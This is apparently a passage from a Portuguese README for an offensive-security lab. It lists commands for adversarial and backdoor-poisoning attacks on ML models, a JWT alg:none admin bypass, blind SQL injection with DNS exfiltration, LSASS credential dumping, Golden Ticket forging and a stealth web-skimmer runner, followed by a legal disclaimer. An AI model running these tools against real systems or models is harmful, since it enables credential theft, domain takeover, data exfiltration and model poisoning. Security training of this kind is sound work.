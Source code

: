 ```bash

Copiar
# Gerar exemplo adversarial FGSM
python ai-adversarial-attacks/evasion-attacks/fgsm-attack.py \
  --model resnet50 --input img.jpg --epsilon 0.01

# Inserção de backdoor em dataset
python ai-adversarial-attacks/poisoning-attacks/backdoor-poisoning-example.py \
  --dataset data/ --trigger patch.png
5. Advanced Web Attack Vectors
bash

Copiar
# Bypass JWT alg:none
python advanced-web-attack-vectors/jwt-attacks/jwt_none_algo_bypass.py \
  --payload '{"role":"admin"}'

# Exploração Blind SQLi OOB via DNS
python advanced-web-attack-vectors/advanced-sqli-oob/sqli-dns-exfiltrator.py \
  --url https://vulneravel.com/item?id=1
6. AD-Attacks Framework
bash

Copiar
# Enumeração LDAP stealth
python ad-attacks/discovery/ldap-enumeration.py \
  --domain corp.local --user svc_account

# Dump LSASS
python ad-attacks/credential-access/mimikatz-mini-modules/lsass-dumper.py

# Golden Ticket
python ad-attacks/persistence/golden-ticket-generator.py \
  --krbtgt-hash <HASH> --user Administrator \
  --domain corp.local --outfile gt.kirbi
🤖 Automação Central
O runner unifica execução multi-módulo:

bash

Copiar
python automation/script_lab_runner.py \
  --modules web-skimmers,request-smuggling \
  --target https://app.exemplo.com \
  --mode stealth \
  --output reports/
📚 Referências & Boas Práticas
MITRE ATT&CK & ATLAS
OWASP Web Security Testing Guide
IBM Adversarial Robustness Toolbox (ART)
PortSwigger Research Blog
DEFCON / Black Hat Papers
Legislação local de Crimes Cibernéticos
Nunca execute técnicas sem autorização; use logs, sandboxes e monitore redes para não prejudicar sistemas de produção.

⚠️ Disclaimer Legal
Este laboratório é apenas para propósito educacional e testes controlados. O uso não autorizado pode constituir crime. Assuma toda responsabilidade por seu ambiente e obtenha permissão explícita antes de qualquer teste.

🚧 Futuras Expansões
Integração de WebRTC leak exfiltration
```